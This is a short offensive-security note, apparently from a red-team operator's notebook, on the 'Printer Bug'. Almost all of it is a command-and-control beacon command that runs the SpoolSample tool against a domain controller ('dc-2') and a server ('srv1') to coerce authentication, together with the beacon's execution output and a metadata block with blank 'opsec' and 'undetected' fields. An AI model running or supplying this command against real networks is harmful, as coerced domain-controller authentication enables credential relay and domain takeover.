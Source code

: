 
## [[Vulnerabilities/Printer Bug]] [[Kerberos/Printer Bug]]
``````beacon
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe dc-2 srv1

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
``````


```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/leechristensen/SpoolSample
description: 
undetected: 
```
